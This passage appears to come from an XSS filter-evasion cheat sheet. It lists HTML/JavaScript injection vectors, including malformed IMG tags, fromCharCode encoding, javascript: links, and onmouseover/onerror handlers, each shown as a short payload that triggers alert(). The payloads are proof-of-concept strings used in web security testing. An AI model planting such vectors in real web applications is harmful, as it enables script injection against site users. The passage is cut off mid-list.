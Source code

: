 (Submitted by David Cross, Verified on Chrome)

### Malformed IMG Tags

This XSS method uses the relaxed rendering engine to create an XSS vector within an IMG tag (which needs to be encapsulated within quotes). We believe this approach was originally meant to correct sloppy coding and it would also make it significantly more difficult to correctly parse HTML tags:

```html
<IMG """><SCRIPT>alert("XSS")</SCRIPT>"\>
```

(Originally found by Begeek, but it was cleaned up and shortened to work in all browsers)

### fromCharCode

If the system does not allow quotes of any kind, you can `eval()` a `fromCharCode` in JavaScript to create any XSS vector you need:

```html
<a href="javascript:alert(String.fromCharCode(88,83,83))">Click Me!</a>
```

### Default SRC Tag to Get Past Filters that Check SRC Domain

This attack will bypass most SRC domain filters. Inserting JavaScript in an event handler also applies to any HTML tag type injection using elements like Form, Iframe, Input, Embed, etc. This also allows the substitution of any relevant event for the tag type, such as `onblur` or `onclick`, providing extensive variations of the injections listed here:

```html
<IMG SRC=# onmouseover="alert('xxs')">
```

(Submitted by David Cross and edited by Abdullah Hussam)

### Default SRC Tag by Leaving it Empty

```html
<IMG SRC= onmouseover="alert('xxs')">
```

### Default SRC Tag by Leaving it out Entirely

```html
<IMG onmouseover="alert('xxs')">
```

### On Error Alert

```html
<IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>
```

### IMG onerror and JavaScript Alert Encode
